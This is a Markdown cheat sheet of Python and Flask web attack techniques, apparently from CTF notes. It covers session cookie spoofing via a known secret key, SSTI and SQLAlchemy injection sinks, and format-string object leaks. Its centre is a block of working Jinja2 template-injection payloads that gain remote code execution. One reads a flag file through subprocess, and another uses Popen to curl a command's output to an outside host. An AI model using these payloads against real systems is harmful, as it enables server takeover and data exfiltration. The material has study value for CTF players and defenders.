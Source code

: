 
# Python
* url_parse in python problem with path params `(http://example.com?asd;xxx)`
* upload \__init__.py file + import
* app.secret_key in flask -> you know it, you can spoof session cookies
* flaks SSTI: `from_string`, `render_template_string`, templates with non-common extension have disabled auto-escaping
* flask sqlalchemy injection: `sqlalchemy.expression.text`, `execute`
* flask threading: `g` and `_context_` are tricky
* flask uses his error pages only for specified addresses, including 127.0.0.1
* flask rce payloads
    ```
    {% raw %}
    
    {% for x in {}.__class__.__base__.__subclasses__() %}{% if hasattr(x,'_module') %}{{x._module.__builtins__['__import__']('os').system("ls")}}{% endif %}{% endfor %}

    {% set loadedClasses = " ".__class__.__mro__[2].__subclasses__() %}
    {% for loadedClass in loadedClasses %} {% if loadedClass.__name__ == "catch_warnings".strip() %}
        {% set builtinsReference = loadedClass()._module.__builtins__ %}
        {% set os = builtinsReference["__import__".strip()]("subprocess".strip()) %}
            {{ os.check_output("cat sha4/flag_bilaabluagbiluariglublaireugrpoop".strip(), shell=True) }}
        {% endif %}
    {% endfor %}

    {{config}}
    {{ url_for.globals.current_app.config }}

    {% for key in ''['__class__']['__mro__'][1]['__subclasses__']() %}
        {% if key['__name__'] == "Popen" %}
            {% if key("curl 908337901:8001 -d $(/readflag)", shell=True, stdout=-1)['communicate']()[0] %}
            {% endif %}
        {% endif %}
    {% endfor %}
    
    {% endraw %}
    ```
* objects comparison: `"1">5 -> True`
* [format is exploitable](http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/): `'{your_input}'.format(some_python_object)` like `'{0.__class__}'.format(object)`
* web cache dirs:
    ```
    /__pycache__/__init__.cpython-35.pyc
    /__pycache__/conf.cpython-35.pyc
    /__pycache__/app.cpython-35.pyc
    ```
* Werkzeug debbuger

* we can replace '\x0a' with '\x0d', it still will be correct python script (useful when getting code with `input()`)

* its possible to send urlencoded data as path, i.e. "GET /%41%41%41 HTTP/1.1" == "GET /AAA HTTP/1.1" (at least in flask dev)
